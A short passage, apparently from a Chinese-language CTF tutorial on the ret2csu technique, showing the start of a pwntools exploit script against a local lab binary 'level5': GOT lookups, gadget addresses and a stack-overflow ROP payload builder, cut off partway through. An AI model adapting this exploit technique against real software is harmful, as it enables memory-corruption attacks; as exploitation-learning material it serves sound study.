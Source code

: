 ![](/Ret2csu.assets/payload3.png)


tips：这里的exp与Wiki上面的不一样，可能是因为libc版本或者编译器导致的  libc_csu_init 函数的地址和指令不一样
```python
#!/usr/bin/python
#!coding:utf-8

from pwn import *

#context.log_level='debug'
p=process("./level5")
elf=ELF("./level5")

write_got=elf.got['write']
read_got=elf.got['read']
main_addr=elf.symbols['main']
bss_addr=elf.bss()

gadget1=0x400606
gadget2=0x4005F0

def csu(rbx,rbp,r12,r13,r14,r15,ret):
    payload='a'*0x80 + 'b'*0x8 + p64(gadget1) # padding + fake_ebp + ret
    payload+=p64(0) # 填充rsp，给寄存器赋值是从rsp+8开始
    payload+=p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    # rbx should be 0
```